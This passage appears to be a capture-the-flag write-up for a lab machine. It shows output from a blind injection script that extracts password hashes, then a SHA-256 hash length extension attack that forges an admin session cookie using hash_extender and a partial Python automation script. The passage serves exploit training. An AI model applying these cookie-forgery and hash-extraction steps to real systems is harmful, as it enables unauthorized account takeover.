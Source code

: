 ```python
get_pass("admin")
print("\n")
get_pass("guest")
```

```bash
python3 sql-exploit.py
Password for admin: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105

Password for guest: 84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
```
This script is going to test the password in loop of range of 64 (*Checking the source code the password is stored as a sha256 check utils.py hash_password() function*) and if in response is the message `not authorized` is going to add that character to the password.

### Hash length extension attack

The password was stored as sha256 that is vulnerable to a hash length extension attack, the cookie is like this:

```bash
echo "dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.b+iO9q3nTSdpS2i4in18SDhHzusauD5Ag9iOCBMrbbw=" | cut -d. -f1 |
 base64 -d
username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;
```

```bash
echo "dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.b+iO9q3nTSdpS2i4in18SDhHzusauD5Ag9iOCBMrbbw=" | cut -d. -f2 | base64 -d | xxd -p | tr -d '\n'
6fe88ef6ade74d27694b68b88a7d7c483847ceeb1ab83e4083d88e08132b6dbc
```

Now with the [hash extender tool](https://github.com/iagox86/hash_extender) we can add a new signature for the admin using the hash found before:

```bash
./hash_extender -d 'username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;' -s 6fe88ef6ade74d27694b68b88a7d7c483847ceeb1ab83e4083d88e08132b6dbc -a';username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;' -f sha256 --secret-min=8 --secret-max=15
```

Now the output gives 15 cookies to test each one I make a script that gets the cookie, uses hash extender with the cookie and test if it is valid:

```python
import requests
import base64
import subprocess
import binascii

# 1 - Get the cookie

data = {"username":"guest","password":"guest"}
headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}

sessions = requests.Session()
sessions.post("http://10.10.10.195/postlogin",data=data,headers=headers)
cookie = binascii.hexlify(base64.b64decode(sessions.cookies.get_dict()['auth'].split('.')[1]))

cmd = f"./hash_extender --secret-min 8 --secret-max 15 --data username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec; --signature {cookie} -f sha256 --table --append ;username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;"

out = subprocess.check_output(cmd.split(" ")).strip().decode().split("\n")

```